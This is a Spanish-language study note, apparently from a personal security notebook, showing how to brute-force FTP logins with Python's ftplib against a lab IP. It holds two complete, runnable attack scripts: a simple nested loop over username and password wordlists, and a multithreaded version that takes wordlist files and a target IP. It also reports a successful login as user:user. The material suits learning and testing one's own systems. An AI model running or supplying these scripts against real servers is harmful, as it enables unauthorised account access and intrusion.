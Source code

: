 Para ello vamos a utilizar la librería ftplib y tener dos ficheros de textos donde uno contenga los posibles usuarios y otro las posibles contraseñas:
![[Mis apuntes/ANEXOS/Pasted image 20221217090603.png]]
![[Mis apuntes/ANEXOS/Pasted image 20221217090607.png]]
Y a continuación utilizamos este código donde se hará el ataque de fuerza bruta FTP utilizando estos dos ficheros de texto:
```python
import ftplib

def ataque(ip,usuario,password):
    ftp = ftplib.FTP(ip)
    try:
        ftp.login(usuario,password)
        ftp.quit()
        print('User: {}:{}'.format(usuario,password))
    except:
        print("Falló la autenticación")

ip = '10.10.0.0'
usuarios = open('usuarios.txt','r')
usuarios = usuarios.read().split('\n')
passwords = open('passwords.txt','r')
passwords = passwords.read().split('\n')

for u in usuarios:
    for p in passwords:
        ataque(ip,u,p)
```
Y si lanzamos el script vemos que nos encuentra un login correcto con el usuario y contraseña user:user:+
![[Mis apuntes/ANEXOS/Pasted image 20221217090641.png]]
Y vemos que si probamos con user y user nos inicia la sesión:

![[Mis apuntes/ANEXOS/Pasted image 20221217090651.png]]
O incluso se puede mejorar este código:
```python
import ftplib
import threading
import signal
import argparse

# Crea un objeto ArgumentParser
parser = argparse.ArgumentParser(description='Inserte los diccionarios')

# Agrega argumentos posicionales
parser.add_argument('users', help='Archivo con los usuarios')
parser.add_argument('passwords', help='Archivo con las contraseñas')

# Analiza los argumentos de la línea de comandos
args = parser.parse_args()

# Variable global para controlar la terminación de hilos
terminate_threads = False

def iniciar_sesion(ip, usuario, password):
    global terminate_threads
    ftp = ftplib.FTP(ip)
    try:
        ftp.login(usuario, password)
        ftp.quit()
        print('User: {}:{}'.format(usuario, password))
        # Si se encuentra una combinación válida, configuramos la bandera para detener los otros hilos
        terminate_threads = True
    except Exception as e:
        if terminate_threads:
            return
        pass  # No se imprime nada en caso de fallo

# Función para iniciar sesión en paralelo
def iniciar_sesiones_concurrentes(usuarios, contrasenas, ip):
    global terminate_threads
    threads = []
    for u in usuarios:
        for p in contrasenas:
            thread = threading.Thread(target=iniciar_sesion, args=(ip, u, p))
            threads.append(thread)
            thread.start()

    for thread in threads:
        thread.join()

# Manejar la señal de Ctrl+C para detener el script
def handle_interrupt(signum, frame):
    global terminate_threads
    terminate_threads = True

signal.signal(signal.SIGINT, handle_interrupt)

ip = input("Introduce la IP objetivo: ")
with open(args.users, 'r') as usuarios_file, open(args.passwords, 'r') as contrasenas_file:
    usuarios = usuarios_file.read().split('\n')
    contrasenas = contrasenas_file.read().split('\n')

try:
    iniciar_sesiones_concurrentes(usuarios, contrasenas, ip)
except KeyboardInterrupt:
    pass
```
Y este sería el resultado:
![[Pasted image 20231012121522.png]]
